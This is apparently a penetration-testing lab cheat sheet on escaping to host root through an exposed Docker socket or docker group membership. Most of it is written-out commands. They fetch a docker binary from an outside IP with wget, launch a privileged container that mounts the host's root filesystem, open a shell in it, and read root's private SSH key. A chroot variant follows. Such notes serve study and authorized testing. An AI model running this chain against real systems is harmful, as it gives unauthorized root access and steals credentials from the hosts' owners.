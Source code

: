 ```shell
ls -al

total 8
drwxr-xr-x 1 htb-student htb-student 4096 Jun 30 15:12 .
drwxr-xr-x 1 root        root        4096 Jun 30 15:12 ..
srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock
```

Use the [docker](https://master.dockerproject.org/linux/x86_64/docker) to interact with the socket and enumerate what docker contains are running. 
```shell
wget https://<ip>/docker -O docker
chmod +x docker
ls -l
```
```shell
/tmp/docker -H unix:///app/docker.sock ps
```
Create our own Docker Container than maps the host roots directory to the hostsystem. This gives us full access to the host system. 
```shell
/tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
```
```shell
/tmp/docker -H unix:///app/docker.sock ps
```
Login to the new privileged Docker container
```shell
/tmp/docker -H unix:///app/docker.sock exec -it <container id> /bin/bash
```
Attempt to grab ssh keys or enumerate etc...
```shell
cat /hostsystem/root/.ssh/id_rsa
```
##### Is Docker Socket Writeable?
```shell
docker image ls
```
```shell
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it <repositry name> chroot /mnt bash
```
```shell
ls -l
```

#### Docker Group
```shell
id

uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```
Check if docker has a SUID, or if we are in the `sudoers` file to run Docker as root. 

See what images are running:
```shell
docker image ls
```
